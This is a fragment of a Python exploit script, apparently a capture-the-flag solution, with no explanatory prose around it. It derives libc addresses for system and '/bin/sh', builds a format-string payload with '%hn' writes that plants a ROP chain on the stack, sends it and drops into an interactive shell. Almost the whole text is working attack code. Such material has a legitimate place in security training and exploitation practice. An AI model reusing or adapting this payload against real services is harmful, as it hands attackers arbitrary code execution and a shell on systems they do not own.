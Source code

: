 ```

pause()

libc_base = libc_start_main_ret - 0x202e1
system_addr = libc_base + 0x3f480
printf_addr = libc_base + 0x4f190
sh_addr = libc_base + 0x1619b9
log.info("system_addr addr: " + hex(system_addr))
log.info("printf_addr addr: " + hex(printf_addr))
log.info("sh_addr addr: " + hex(sh_addr))

pr_addr = 0x400a03

n = 6 + 14
pattern = "%{}c%{}$hn"

payload = ""
### pop rdi; ret

payload += pattern.format(0x0a03,n)

### "/bin/sh\x00"

sh_low = sh_addr & 0xffff
sh_mid = (sh_addr >> 16) & 0xffff
sh_high = (sh_addr >> 32) & 0xffff

payload += pattern.format(s_sub(sh_low,0x0a03),n+1)
payload += pattern.format(s_sub(sh_mid,sh_low),n+2)
payload += pattern.format(s_sub(sh_high,sh_mid),n+3)

### system

system_low = system_addr & 0xffff
system_mid = (system_addr >> 16) & 0xffff
system_high = (system_addr >> 32) & 0xffff

payload += pattern.format(s_sub(system_low,sh_high),n+4)
payload += pattern.format(s_sub(system_mid,system_low),n+5)
payload += pattern.format(s_sub(system_high,system_mid),n+6)

###padding

payload = payload.ljust(112,"A") #7*16=112

# ret -->  pop rid; ret
payload += p64(stack_addr-0x28)

# rdi --> "/bin/sh\x00"
payload += p64(stack_addr-0x28+8)
payload += p64(stack_addr-0x28+10)
payload += p64(stack_addr-0x28+12)

# system
payload +=p64(stack_addr-0x28+16)
payload +=p64(stack_addr-0x28+18)
payload +=p64(stack_addr-0x28+20)

pause()

p.sendline(payload)

p.interactive()
```